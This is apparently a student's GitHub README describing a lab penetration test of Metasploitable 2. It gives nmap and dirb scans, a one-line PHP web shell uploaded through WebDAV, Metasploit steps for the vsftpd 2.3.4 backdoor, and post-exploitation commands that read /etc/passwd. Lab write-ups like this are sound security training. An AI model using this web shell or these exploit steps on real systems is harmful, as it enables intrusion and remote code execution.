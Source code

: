 # Project 3: Penetration Testing in a Lab

## Goal

Simulate a penetration test against a vulnerable machine in a safe lab environment, then document the findings.

## Methodology

The penetration test followed a structured approach:

1. Reconnaissance & Scanning
2. Vulnerability Scanning
3. Exploitation
4. Post-Exploitation
5. Reporting

## Scope

Attacker VM: Kali Linux

Target VM: Metasploitable 2

Environment: Host-only network

## Tools Used

- Nmap (port/service discovery)
- Dirb (web vulnerability scanning)
- Cadaver (file injection)
- Metasploit Framework (exploitation)

## Attack Path

### 1\. Reconnaissance & Scanning

Find open ports and services:

    nmap -sV -A &lt;target_IP&gt;
    
  \-sV → service/version detection
  \-A → OS detection, traceroute, script scanning

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![](./Screenshots/nmap.png)


### 2\. Web Vulnerability Scanning

Check the web service:

    dirb http://&lt;target_IP&gt;
    
- Looks for accessible web servers.

![](./Screenshots/dirb.png)


### 3\. WebDav file injection

Create a shell.php file and add _&lt;?php system($\_GET\['cmd'\]); ?&gt;_

    cadaver http://&lt;target_IP&gt;
    
    put shell.php

Now you have Remote Code Execution (RCE) on the server.

![](./Screenshots/cadaver.png)

### 4\. Exploitation with Metasploit

Example: FTP Backdoor Exploit (vsftpd 2.3.4)

    msfconsole
  
    search vsftpd
    
    use exploit/unix/ftp/vsftpd_234_backdoor
    
    set RHOST &lt;target_IP&gt;
  
    exploit

### 5\. Post-Exploitation

Once inside:

    whoami
    
    uname -a
    
    cat /etc/passwd

![](./Screenshots/msfconsole.png)







